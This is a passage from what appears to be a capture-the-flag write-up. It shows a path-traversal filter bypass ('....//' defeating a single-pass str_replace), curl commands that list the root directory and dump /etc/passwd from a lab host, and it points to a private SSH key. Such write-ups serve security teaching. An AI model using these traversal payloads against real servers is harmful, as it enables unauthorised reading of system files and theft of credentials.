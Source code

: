 Fortunately for me, that style filter can be bypassed by including a string that, after the `str_replace`, will result in what I want. `str_replace` is not recursive. It only makes one pass over the string. So, `str_replace( array("../", "..\""), "", "....//") == "../"`.

To test, I’ll get a directory listing of `/` and grab `/etc/passwd`:

```

root@kali# curl -s -X POST -d "path=....//....//....//" http://10.10.10.87/dirRead.php | jq -rc .
[".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]

root@kali# curl -s -X POST -d "file=....//....//....//etc/passwd" http://10.10.10.87/fileRead.php | jq -r .file
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin

```

#### Interesting Files

In enumerating the box with dir list and file read, I’ll find a few interesting things.
- Right away we see `.dockerenv` in the root. Looking around further, the box is sparse, so I am likely in a container.
- There’s one user on the box, nobody. There’s a `user.txt` in the nobody home directory, but as mentioned above, I can’t read it. I’ll need to get shell access.
- There’s also a .ssh folder, which contains a file named `.monitor`, which is a private ssh key. I’ll save it with this command:
